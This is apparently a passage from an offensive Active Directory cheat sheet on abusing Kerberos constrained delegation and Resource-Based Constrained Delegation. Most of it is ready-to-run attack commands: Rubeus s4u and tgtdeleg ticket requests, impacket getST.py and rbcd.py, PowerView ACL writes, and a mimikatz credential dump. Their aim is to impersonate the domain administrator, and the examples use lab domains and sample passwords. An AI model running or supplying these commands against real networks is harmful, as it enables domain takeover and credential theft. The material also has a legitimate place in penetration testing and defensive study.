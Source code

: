 * with rc4 hash in hand
```powershell
# Request TGT + TGS
Rubeus.exe s4u /user:attacker /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:time/dc01 /altservice:cifs,host,http /domain:contoso.local /dc:dc01.contoso.local /ptt

# impacket
getST.py -spn cifs/TargetComputer.range.net 'range.net/FakeComputer$:newpassword123' -impersonate administrator -dc-ip 192.168.86.182
```

* with owned user session (not knowing his rc4)
```powershell
# Request for ticket
Rubeus.exe tgtdeleg /nowrap

# Request TGS with base64 blob ticket
Rubeus.exe s4u /user:attacker /ticket:<base64-blob> /impersonateuser:administrator /msdsspn:time/dc01 /altservice:cifs,http,host /domain:contoso.local /dc:dc01.contoso.local /ptt
```

## Resource-Based Constrained Delegation (RBCD)
This attack is possible if owned user/computer object has _GenericWrite_ or write privilege to user/computer object attributes. Since we have write privilege, we can write to _msds-allowedtoactonbehalfofotheridentity_ property. There are few requirements needed in order to perform this attack.

| Name                                              | Value         |
| ------------------------------------------------- | ------------- |
| Domain object with SPN set (computer/service acc) | `mycomputer$` |
| Principal's plain-text or hashes (rc4/aes-256)    | `Range2022!`  |
1. Import ADModule
2. Set _msds-allowedtoactonbehalfofotheridentity_ to owned computer/user objects.
```powershell
# AD-Module
Set-ADComputer -Identity dc01 -PrincipalsAllowedToDelegateToAccount (Get-ADComputer mycomputer)

# PowerView
Add-DomainObjectAcl -TargetIdentity dc01 -PrincipalIdentity mycomputer -Rights rbcd

# Impacket
rbcd.py kiwi.local/kiwiadm:Password1234 -action write -delegate-to 'kiwi-dc$' -delegate-from cami.nichole -dc-ip 192.168.86.189
```
3. Get mycomputer$ ntlm hash or aes keys
```powershell
mimikatz# sekurlsa::logonpasswords
```
4. Apply s4u delegation (TGT+TGS)
```powershell
# rubeus
Rubeus.exe s4u /user:mycomputer$ /rc4:<rc4/ntlm hash> /impersonateuser:administrator /msdsspn:http/dc01 /altservice:cifs /ptt

# impacket 
getST.py range.net/mssqlsvc:'Range2022!' -dc-ip 192.168.86.182 -spn cifs/dc01.range.net -impersonate Administrator
```
